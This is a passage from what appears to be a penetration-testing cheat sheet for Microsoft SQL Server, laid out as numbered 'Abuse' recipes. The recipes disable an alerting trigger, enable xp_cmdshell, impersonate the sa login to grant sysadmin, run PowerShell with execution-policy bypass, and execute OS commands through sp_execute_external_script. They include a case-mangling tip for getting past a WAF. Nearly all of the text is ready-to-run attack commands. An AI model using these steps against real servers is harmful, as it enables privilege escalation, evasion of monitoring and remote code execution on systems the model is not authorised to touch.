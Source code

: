 ```console
select name from sys.server_triggers;
```

#### 2. Disable Trigger if Any \[Optional\]

```console
disable trigger ALERT_xp_cmdshell on all server;
```

#### 3. Enable xp_cmdshell

```console
enable_xp_cmdshell;
```

#### 4. RCE

```console
xp_cmdshell powershell.exe -ep bypass <CMD>
```

---

### Abuse #4: Impersonate sa to run xp_cmdshell

#### 1. Add User to Sysadmin

```console
execute as login = 'sa'; exec sp_addsrvrolemember '<USER>','sysadmin'
```

#### 2. Check

```console
SELECT is_srvrolemember('sysadmin');
```

#### 3. Enable xp_cmdshell

```console
execute as login = 'sa'; exec sp_configure 'show advanced options', 1;
```

```console
execute as login = 'sa'; reconfigure;
```

```console
execute as login = 'sa'; exec sp_configure 'xp_cmdshell', 1;
```

```console
execute as login = 'sa'; reconfigure;
```

#### 4. RCE

```console
execute as login = 'sa'; EXEC master..xp_cmdshell 'powershell.exe -ep bypass <CMD>'
```

<small>*Note: try xp_cmDshElL to bypass WAF*</small>

---

### Abuse #5: Run External Script

#### 1. Run External Script (Python)

```console
EXEC sp_execute_external_script @language =N'Python', @script = N'import os; os.system("<CMD>");';
```
